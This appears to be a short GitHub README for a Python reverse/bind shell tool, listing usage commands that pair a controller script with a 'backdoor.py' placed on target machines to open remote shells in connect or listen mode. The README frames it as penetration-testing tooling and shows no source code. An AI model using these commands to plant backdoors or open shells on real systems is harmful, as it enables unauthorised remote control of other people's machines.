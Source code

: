 Python Reverse-Bind Shell
Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
         <img src="https://preview.ibb.co/kT9JLz/1.png">
         <img src="https://preview.ibb.co/hjc50z/2.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)

        
